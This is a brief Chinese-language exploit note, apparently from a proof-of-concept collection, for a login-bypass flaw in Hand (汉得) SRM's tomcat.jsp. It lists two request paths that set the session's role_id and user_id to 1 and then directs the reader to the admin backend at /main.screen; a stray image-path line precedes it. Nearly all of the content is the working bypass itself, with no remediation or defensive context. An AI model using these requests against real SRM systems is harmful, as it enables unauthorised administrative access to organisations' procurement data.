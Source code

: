 ## 汉得SRM tomcat.jsp 登录绕过漏洞
```
/tomcat.jsp?dataName=role_id&dataValue=1
/tomcat.jsp?dataName=user_id&dataValue=1
```
然后访问后台：/main.screen
